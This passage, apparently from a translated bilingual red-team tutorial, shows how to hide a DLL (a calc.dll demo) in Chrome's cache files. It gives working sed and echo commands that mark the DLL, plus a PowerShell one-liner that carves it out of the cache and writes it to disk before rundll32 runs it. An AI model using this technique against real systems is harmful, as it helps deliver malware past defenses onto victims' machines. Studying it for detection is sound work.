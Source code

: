 Then we preprend a string that is going to tell us where the DLL starts:  
然后我们准备一个字符串，它将告诉我们 DLL 从哪里开始：

```bash
sed -i "1s/^/INDLL/" calc.dll
```

And append a string to tell us where it ends:  
并附加一个字符串来告诉我们它的结束位置：

```bash
echo -n "OUTDLL" >> calc.dll
```

At this point we know that our DLL is located between the INDLL and OUTDLL tags in one of Chrome’s cache database , all we need to do is to run some PowerShell code that will be able to analyze the Chrome’s databases and extract the DLL from them. This can be done via the following PowerShell oneliner:  
此时我们知道我们的 DLL 位于 Chrome 缓存数据库之一的 INDLL 和 OUTDLL 标签之间，我们需要做的就是运行一些 PowerShell 代码，这些代码将能够分析 Chrome 的数据库并从中提取 DLL。这可以通过以下 PowerShell oneliner 完成：

```PowerShell
$d="$env:LOCALAPPDATA\Google\Chrome\User Data\Default\Cache\Cache_Data\";gci $d|%{if([regex]::Matches([System.Text.Encoding]::Default.GetString([System.IO.File]::ReadAllBytes($_.FullName)),"(?<=INDLL)(.*?)(?=OUTDLL)",[System.Text.RegularExpressions.RegexOptions]::Singleline).Count-ne0){[System.IO.File]::WriteAllBytes("$d\hello.dll",[System.Text.Encoding]::Default.GetBytes($matches[0].Value))}}
```

And effectively, our DLL is found and extracted:  
实际上，我们的 DLL 被找到并提取：

![](assets/1701827279-a67575bf7c795484ffc837a6381b3e9a.png)

Then we can use rundll32 to execute it:  
然后我们可以使用 rundll32 来执行它：

